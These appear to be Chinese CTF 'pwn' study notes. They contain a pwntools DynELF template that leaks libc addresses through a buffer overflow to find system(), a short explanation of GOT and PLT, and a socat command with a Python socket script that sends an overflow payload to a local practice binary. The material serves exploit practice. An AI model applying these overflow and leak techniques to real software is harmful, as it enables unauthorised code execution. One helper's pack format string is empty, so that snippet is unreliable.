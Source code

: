 ```python
io.interactive()

```

**DynELF模板**

```python
def leak(address):
    payload='A'*junk+p32(write_plt)+p32(func_addr)+p32(1)+p32(address)+p32(4)
    #junk是溢出需要的字节，利用pwndbg中的cyclic可以计算出
    #write(1,address,4)表示将address向外写
    r.send(payload)
    data = r.recv(4)
    print(data)
    return data

dyn=DynELF(leak,elf=ELF('./pwn200'))#调用DynELF

sys_addr = dyn.lookup('system',libc)
print('system address:',hex(sys_addr))
```

**plt地址和got地址的区别**

```
GOT（Global Offset Table）全局偏移表。这是「链接器」为「外部符号」填充的实际偏移表。
PLT（Procedure Linkage Table）程序链接表。它有两个功能，要么在 .got.plt 节中拿到地址，并跳转。要么当 .got.plt没有所需地址的时，触发「链接器」去找到所需地址
```

## 前置知识

### 如何部署Pwn题：

```bash
socat tcp-l:8877,fork exec:./question_2_x64,reuseaddr

```

```python
import socket
import telnetlib
import struct

def P32(val):
	return struct.pack("", val)

def pwn():
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("127.0.0.1", 8877))
	payload = 'A'*0x8 + '\x10'
	s.sendall(payload + '\n')
	t = telnetlib.Telnet()
	t.sock = s
	t.interact()

if __name__ == "__main__":
    # socat tcp-l:8888,fork exec:./question_1_plus_x64,reuseaddr
	pwn()
```
